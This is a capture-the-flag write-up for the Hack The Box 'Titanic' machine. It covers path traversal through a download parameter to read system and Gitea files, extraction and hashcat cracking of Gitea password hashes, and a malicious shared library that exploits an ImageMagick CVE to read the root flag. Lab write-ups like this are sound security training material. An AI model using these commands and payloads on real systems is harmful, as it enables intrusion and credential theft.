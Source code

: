 # Titanic Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.55`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
    |_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://titanic.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add host to `/etc/hosts`.

    echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts

## Exploitation

Titanic.htb main page:

![image](https://github.com/user-attachments/assets/71b40b1e-ff64-4f32-856d-54d159f23f17)

Book Your trip button

![image](https://github.com/user-attachments/assets/c4724f5d-2e45-43bd-aa4c-952e75998a42)

JSON file

![image](https://github.com/user-attachments/assets/2c105d92-c095-4a81-ae7a-f8fa08526f2e)

Request

![image](https://github.com/user-attachments/assets/c06f2384-b385-4148-a83f-e138ee65b364)

`/etc/passwd`

![image](https://github.com/user-attachments/assets/734d26d3-21bb-4858-a1fb-457834fd781f)

`/home/developer:/bin/bash`

![image](https://github.com/user-attachments/assets/003d0b52-b483-4573-a66f-85388ff02034)


Get the user flag!

![image](https://github.com/user-attachments/assets/09c488a2-b053-4995-9238-e1645627e117)

### Privilege escalation

Read `/etc/hosts`

![image](https://github.com/user-attachments/assets/2c5d511c-ba55-4c23-88e9-dbe511d1827c)

Or by using Curl

    curl --path-as-is 'http://titanic.htb/download?ticket=/etc/hosts'

![image](https://github.com/user-attachments/assets/1cfb7600-e9eb-4e33-b328-486f4aaf510a)

Add `dev` subdomain to `/etc/hosts` on our machine!

    echo "10.10.11.55 dev.titanic.htb" | sudo tee -a /etc/hosts

dev.titanic.htb page

![image](https://github.com/user-attachments/assets/dcc13324-0065-4100-a93e-bf6aa610ecaf)

![image](https://github.com/user-attachments/assets/1172ba9c-2c0a-4ddf-b862-59a55bff68a2)

![image](https://github.com/user-attachments/assets/16f2df5c-2c1d-4d1d-b43a-b7a5f75fcc00)

![image](https://github.com/user-attachments/assets/ce09544c-a113-4fa2-aeac-8ae117163f06)

    curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'

![image](https://github.com/user-attachments/assets/5266dcb4-847a-4764-9000-5e95937617a1)

     /download?ticket=/home/developer/gitea/data/gitea/gitea.db

![image](https://github.com/user-attachments/assets/bc683fe5-e5e5-4f29-b383-8b0115d1bf71)

    curl --path-as-is 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' --output database

![image](https://github.com/user-attachments/assets/06bd7efb-ce02-4a1e-875f-2c7263d42e50)

sqlitebrowser

![image](https://github.com/user-attachments/assets/cc4e3c59-08f5-4824-bcef-0229057b30b3)

    sqlite3 database.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

![image](https://github.com/user-attachments/assets/a9e252e0-c0e2-4c04-80f9-47c651ef21a0)

`administrator`:`sha256`:`50000`:`LRSeX70bIM8x2z48aij8mw==`:`y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`

`developer`:`sha256`:`50000`:`i/PjRSt4VE+L7pQA1pNtNA==`:`5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Hashcat

`hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user`
    
    Session..........: hashcat
    Status...........: Running
    Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
    Hash.Target......: gitea.hashes
    Time.Started.....: Sat Feb 22 11:19:03 2025 (21 secs)
    Time.Estimated...: Sun Feb 23 14:01:35 2025 (1 day, 2 hours)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      298 H/s (2.90ms) @ Accel:256 Loops:32 Thr:1 Vec:8
    Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new), 0/2 (0.00%) Salts
    Progress.........: 6144/28688770 (0.02%)
    Rejected.........: 0/6144 (0.00%)
    Restore.Point....: 3072/14344385 (0.02%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:544-576
    Candidate.Engine.: Device Generator
    Candidates.#1....: adriano -> class08
    Hardware.Mon.#1..: Util: 79%
    
    sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528

SSH

`developer`:`25282528`

    ssh developer@titanic.htb

![image](https://github.com/user-attachments/assets/1c3f49e2-70b4-425a-8ccb-2ae58a39f6f8)

    find / -writable -type d 2>/dev/null

![image](https://github.com/user-attachments/assets/dc09cd23-fdbb-466a-9694-df5aec98e8ea)

![image](https://github.com/user-attachments/assets/fd13e376-4dc5-442b-935d-c17914022cd1)

![image](https://github.com/user-attachments/assets/bb69e97d-3805-4096-9082-583574a2bdfa)

CVE-2024-41817

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

![image](https://github.com/user-attachments/assets/3a07cc08-a5e8-4e5e-9129-41fabf153378)

/opt/app/static/assets/images/

exploit 

    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void init(){
        system("cp /root/root.txt root.txt; chmod 754 root.txt");
        exit(0);
    }
    EOF

Get the root flag!

![image](https://github.com/user-attachments/assets/dfb2ea6f-058d-4184-83d8-4aa951fbcc00)
